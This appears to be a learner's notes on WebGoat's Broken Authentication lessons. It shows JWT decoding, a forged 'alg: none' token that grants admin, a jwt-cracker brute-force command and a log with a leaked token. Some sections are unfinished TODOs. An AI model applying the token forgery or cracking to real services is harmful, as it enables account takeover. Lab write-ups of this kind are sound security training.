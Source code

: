 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A2 - Broken Authentication](#a2---broken-authentication)
  - [Authentication Bypass](#authentication-bypass)
  - [JWT tokens](#jwt-tokens)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A2 - Broken Authentication

## Authentication Bypass

### 1. Authentication Bypasses

- Hidden inputs
- Removing Parameters
- Forced Browsing

### 2. 2FA Password Reset

TODO

## JWT tokens

### 1. Concept

### 2. Structure of a JWT token

structure: `header.claims.signature`

### 3. Authentication and getting a JWT token

|Browser||Server|
|-|-|-|
|| --- 1. POST /users/login with username and password ---&gt; ||
||| 2. create a JWT with a secret |
|| &lt;--- 3. returns the JWT to the Browser --- ||
|| --- 4. sends the JWT on the Authorization Header ---&gt; ||
||| 5. check JWT signature. Get user information from the JWT |
|| &lt;--- sends response to the client --- ||

### 4. JWT signing

JWT token: `eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiSmVycnkifQ.Xk8SK-rQYytVU7fQmYSEv8e1e2hnMrR4ljjNIylpNjzKNMx-oZ1Zt35NzmlFXaR5Qkj0YeT25ZFbGiR84UcWAQ`

```sh
$ echo -n eyJhbGciOiJIUzUxMiJ9 | base64 -d
{"alg":"HS512"}

$ echo -n eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiSmVycnkifQ== | base64 -d
{"iat":1611866791,"admin":"false","user":"Jerry"}
```

```sh
$ echo -n '{"alg":"none"}' | base64
eyJhbGciOiJub25lIn0=

$ echo -n '{"iat":1611866791,"admin":"true","user":"Jerry"}' | base64
eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9
```

Exploit:

JWT token: `eyJhbGciOiJub25lIn0.eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9.`

### 5. JWT cracking

JWT token: `eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTYxMTAwMTQ1NiwiZXhwIjoxNjExMDAxNTE2LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.3ngFGIX-epPtQFF53n8nNmO2DWZR05pEeb0wqSeKgvk`

```sh
# npm install --global jwt-cracker
$ time jwt-cracker "eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTYxMTAwMTQ1NiwiZXhwIjoxNjExMDAxNTE2LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.3ngFGIX-epPtQFF53n8nNmO2DWZR05pEeb0wqSeKgvk"
```

TODO jwt-cracker output

$ echo -n eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}

$ echo -n eyJpc3MiOieyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTYxMTAwMTQ1NiwiZXhwIjoxNjExMDAxNTE2LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19 | base64 -d
{"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":1611001456,"exp":1611001516,"sub":"tom@webgoat.org","username":"Tom","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}


{"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":1611001456,"exp":1611001516,"sub":"tom@webgoat.org","username":"WebGoat","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}

### 6. Refreshing a token

```sh
$ curl -X POST -H -d 'username=webgoat&password=webgoat' localhost:8080/WebGoat/login

{
    "token_type":"bearer",
    "access_token":"XXXX.YYYY.ZZZZ",
    "expires_in":10,
    "refresh_token":"4a9a0b1eac1a34201b3c5659944e8b7"
}
```

The best place to use a JWT token is between server to server communications. 
In a normal web application you are better of using plain old cookies.

### 7. Refreshing a token

Logfile content:

```
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/checkout?token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q HTTP/1.1" 401 242 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 200 12783 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/login HTTP/1.1" 200 212 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/addItems HTTP/1.1" 404 249 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
195.206.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 404 215 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36" "-"
```

```
POST http://localhost:8080/WebGoat/JWT/refresh/login HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 46
Origin: https://localhost:8080
Connection: keep-alive
Referer: https://localhost:8080/WebGoat/start.mvc
Cookie: JSESSIONID=VkTTDokwF6mHqAv-2-6ME1FcB7iBOc3DaxJRIhy9
Host: localhost:8080

{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}
```

```
HTTP/1.1 200 OK
Connection: keep-alive
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Type: application/json
Date: Mon, 18 Jan 2021 21:55:06 GMT

{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "wdlkIZVfyAFuscUUKsmV"
}
```

TODO find the way to use refresh_token (Jerry) in order to refresh logfile token (Tom)